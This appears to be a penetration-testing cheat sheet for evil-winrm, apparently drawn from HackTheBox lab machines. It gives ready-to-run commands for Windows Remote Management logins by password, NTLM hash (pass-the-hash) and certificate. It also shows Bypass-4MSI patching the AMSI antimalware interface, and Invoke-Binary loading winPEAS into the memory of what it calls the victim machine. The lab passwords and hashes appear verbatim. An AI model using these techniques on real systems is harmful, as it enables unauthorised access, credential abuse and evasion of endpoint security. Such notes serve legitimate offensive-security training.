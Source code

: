 ## # `Commands` -

`Evil-winrm` is the best tool for connecting to WinRM from a Linux host.

1. Login :

- Normal Login -

```powershell
evil-winrm -i 10.10.11.132 -u oliver -p c1cdfun_d2434
```

- Normal login via creds(using ssl) -

```bash
evil-winrm -i timelapse.htb -S -u administrator -p 'uM[3va(s870g6Y]9i]6tMu{j'
```

- Login via Hash -

```bash
evil-winrm -u administrator -H c370bddf384a691d811ff3495e8a72e2 -i apt.htb
```

- Using Certificate to login -

```bash
evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```

-   `-S` - Enable SSL, because I’m connecting to 5986;
-   `-c legacyy_dev_auth.crt` - provide the public key certificate
-   `-k legacyy_dev_auth.key` - provide the private key
-   `-i timelapse.htb` - host to connect to

2. Bypassing AMSI :

```powershell
*Evil-WinRM* PS C:\Users\henry.vinson_adm\appdata\local\temp> menu

   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /    
        \/                               \/          \/       \/         \/      
              By: CyberVaca, OscarAkaElvis, Laox @Hackplayers

[+] Bypass-4MSI
[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary

*Evil-WinRM* PS C:\Users\henry.vinson_adm\appdata\local\temp> Bypass-4MSI
[+] Patched! :D
```

3. Invoke-Binary :

You can use `Invoke-Binary` to load an EXE from your system directly into the memory of victim machine :

```powershell
*Evil-WinRM* PS C:\Users\henry.vinson_adm\appdata\local\temp> Invoke-Binary /opt/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe
```

This method of running does seem to cache all the output and then dump it once the process is complete, so it can take some patience to wait for output to come.

